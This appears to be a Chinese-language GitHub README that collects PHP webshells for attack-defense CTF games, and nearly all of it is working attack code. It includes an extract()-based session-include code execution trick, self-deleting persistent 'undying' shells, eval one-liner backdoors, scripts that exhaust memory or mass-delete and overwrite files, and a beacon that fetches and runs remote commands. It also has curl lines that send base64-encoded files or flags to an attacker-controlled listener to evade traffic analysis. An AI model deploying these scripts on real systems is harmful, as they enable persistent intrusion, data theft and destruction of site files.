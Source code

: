 # Webshell

## Interesting.php

```php
<?php
session_start();
extract($_GET);
if(preg_match('/[0-9]/',$_SESSION['PHPSESSID']))
                   exit;
if(preg_match('/\/|\./',$_SESSION['PHPSESSID']))
                   exit;
include(ini_get("session.save_path")."/sess_".$_SESSION['PHPSESSID']);
?>
```

通过xxx.php?_SESSION['name']=<?php phpinfo();?>

xxx.php?_SESSION['name']=<?php system("ls ./");?>来操控

主要原理是extract可以变量覆盖，导致我们可以控制PHPSESSID变量，而该变量会保存include(ini_get("session.save_path")."/sess_".$_SESSION['PHPSESSID']);在这个路径下。

![interesting](interesting.png)

所以，既然我们可控session就能控制这个路径下文件的内容，最终达成任意代码执行的效果。注意：有些服务器会配置session文件内容不可include？就是不可读（我的mac就这样），那么该攻击就失效了。

## nodie.php

```php
<?php
#光回传flag
unlink($_SERVER['SCRIPT_FILENAME']);
ignore_user_abort(true);
set_time_limit(0);
while (true) {
    $x = file_get_contents('/Users/moxiaoxi/Desktop/1.txt');
	file_get_contents('http://127.0.0.1:20002/test.php?zmkm=qqq&qqq='.$x);
    sleep(1);
}
?>
```

猥琐回传式不死马，/Users/moxiaoxi/Desktop/1.txt 应该为flag的绝对地址，然后通过file_get_contents函数回传到我们的服务器或者攻击机上。



## nuclear_bomb.php

```php
<?php

    set_time_limit(0);

    ignore_user_abort(true);

    while(1){

        file_put_contents(randstr().’.php’,file_get_content(__FILE__));

        file_get_contents(“http://127.0.0.1/“);

    }
/*
根据代码，不难看出这个脚本的功能。

常驻内存之后，进入死循环。

循环内部是实现无效複製自身并且访问web服务的功能。

执行的后果就是内存爆炸，php就GG了，严重点的话，Docker也GG。*/
```



## Del.php

```php
<?php

    set_time_limit(0);

    ignore_user_abort(1);

    array_map('unlink', glob("some/dir/*.php"));

?>
```

批量删除some/dir/*.php文件



## del_or_change.php

```php
<?php

    set_time_limit(0);

    ignore_user_abort(1);

    unlink(__FILE__);

    function getfiles($path){

        foreach(glob($path) as $afile){

            if(is_dir($afile))

                getfiles($afile.'/*.php');

            else

                @file_put_contents($afile,”#Anything#”);

                //unlink($afile);

        }

    }

    while(1){

        getfiles(__DIR__);

        sleep(10);

    }

?>
```

批量删除或者写文件



## weisuonodie.php

```php
<?php
unlink($_SERVER['SCRIPT_FILENAME']);
ignore_user_abort(true);
set_time_limit(0);
$interval =30;
while (true) {
	$fp = fopen('./language.php','a');
	fwrite($fp,'<?php @eval($_POST['Pegasus']);?>';
	fclose($fp);
	sleep($interval);
}
?>
	
```

一直写language.php,里面是一个简单的一句话木马。访问language.php即可



## Yijuhua.php

```php
<?php
$serverList = array(
    "127.0.0.1",
    "::1"
);
$ip = $_SERVER['REMOTE_ADDR'];

foreach ($serverList as $host){
    if( $ip===$host){
		$a = $_POST['n985de9'];
		if(isset($a)) {
    		eval(base64_decode($a));
		}
    }else{
        die();
    }
}
```

仅能自己用的一句话木马，用于权限维持和运维。





## 最猥琐

回传式命令执行

1. 首先，先给对方种一个不死马

   ```php
   <?php
   unlink($_SERVER['SCRIPT_FILENAME']);
   ignore_user_abort(true);
   set_time_limit(0);

   while (true) {
       $str = file_get_contents('http://localhost/429/index.php');
       system($str);
       sleep(10);
   }
   ?>
   ```

   http://localhost/429/index.php 是你控制的服务器上的一个文件，里面的内容为需要执行的系统命令

2. index.php的内容可以为

   ```php
   curl http://localhost:3333/429/`base64 -i $(ls ./)`
   ```

   或者

   ```
   curl http://localhost:3333/429/`base64 -i ./test.txt`
   ```

   http://localhost:3333/429/ 为你可以控制的服务器。我们监听3333端口获取数据。将获得的flag数据base64一下返回，防止流量分析。





## 最简单

```php
<?php
unlink($_SERVER['SCRIPT_FILENAME']);
ignore_user_abort(true);
set_time_limit(0);
while (true) {
	system("curl 172.16.100.5:9000/submit_flag/ -d 'flag='$(cat /home/njweb/flag/flag)'&token=7gsVbnRb6ToHRMxrP1zTBzQ9BeM05oncH9hUoef7HyXXhSzggQoLM2uXwjy1slr0XOpu8aS0qrY");
    sleep(10);
}
?>
```

直接在对方服务器上提交，不交互